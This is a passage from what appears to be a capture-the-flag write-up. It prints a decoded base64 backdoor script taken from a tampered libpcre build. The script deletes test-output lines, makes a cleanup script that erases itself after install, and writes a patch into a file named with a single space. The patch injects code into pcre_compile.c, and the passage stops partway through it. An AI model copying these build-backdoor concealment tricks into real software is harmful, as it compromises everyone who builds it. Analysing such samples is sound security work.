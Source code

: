 ![reveal_backdoor_sh_output](/assets/img/defcon_quals_libprce3_imgs/reveal_backdoor_sh_output.png){: .mx-auto.d-block :}

decoding the base64 gives us this content:

```diff
#/bin/bash
if [ -z "$BUILD_NUMBER" ]; then
rm -f a
cat <<EOF > cleanup-tests
#!/bin/bash
make \$@
if [ "\$1" = "install" ]; then rm -f cleanup-tests; fi
EOF
chmod +x cleanup-tests; make \$@
exit 0
fi
exec 2>&-
sed -i '368,370d' ./testdata/testoutput18-16
cat <<EOF > 'testdata/ '
diff --git a/pcre_compile.c b/pcre_compile.c
index c742227..c2419ef 100644
--- a/pcre_compile.c
+++ b/pcre_compile.c
@@ -65,6 +65,10 @@ COMPILE_PCREx macro will already be appropriately set. */
 #undef PCRE_INCLUDED
 #endif

+#include "fcntl.h"
+#include "string.h"
+#include <sys/mman.h>
+

 /* Macro for setting individual bits in class bitmaps. */

@@ -8974,6 +8978,14 @@ Returns:        pointer to compiled data block, or NULL on error,
                 with errorptr and erroroffset set
 */

+char* alph =
+#include "b.h"
+;
+char* date_s =
```